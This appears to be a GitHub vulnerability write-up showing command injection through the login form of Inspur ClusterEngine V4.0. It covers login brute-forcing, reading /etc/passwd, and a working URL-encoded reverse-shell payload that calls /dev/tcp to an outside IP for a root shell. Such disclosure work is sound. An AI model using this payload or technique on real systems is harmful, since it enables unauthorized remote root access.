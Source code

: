 # Inspur ClusterEngineV4.0 Remote Code Execution

# 0x01 Description

Today, i found a`Inspur Server Cluster Management System` in our intranet, which login page looks like that.

![1573267238057](img/1573267238057.png)

It doesn't have verification code, so i decide to crack a login account.

![1573267410033](img/1573267410033.png)



when burpsuite crack down, i noticed if post data has `;'`, the response packet is abnormal.

![1573267472820](img/1573267472820.png)

At now, I realize that there may be a remote code execution, and I put this packet in repeater to repeat it, I found if there is a `'` in post data, the system will throw an exception.

![1573267667895](img/1573267667895.png)

![1573267621779](img/1573267621779.png)

When I further tested, I found that either the username parameter or the password parameter contains `'`, an exception will be thrown.

![1573267874260](img/1573267874260.png)

So I decided to try send `' '`  to see the response packet.

![1573267904173](img/1573267904173.png)

I noticed `grep` command error,  may be server code like 
```shell
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$passwd','$1$$var1')")
```

So i try to send `-V` and `--help` to see response packet,  the response packet confirmed my guess.

![1573268170355](img/1573268170355.png)

![1573268245311](img/1573268245311.png)

Try to read `/etc/passwd`

![1573268332873](img/1573268332873.png)

Try to list the directories

![1573268361127](img/1573268361127.png)



# 0x02 Pwned

Now, I confirmed there is a remote code execution that i found, after fuzz, I got the following payload

`whoami`

![1573268530852](img/1573268530852.png)

`uname`

![1573268555327](img/1573268555327.png)

`revershell`

```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

When i send payload, i get a `root shell` in my `kali linux`server

![1573268596272](img/1573268596272.png)

![1573267093372](img/1573267093372.png)
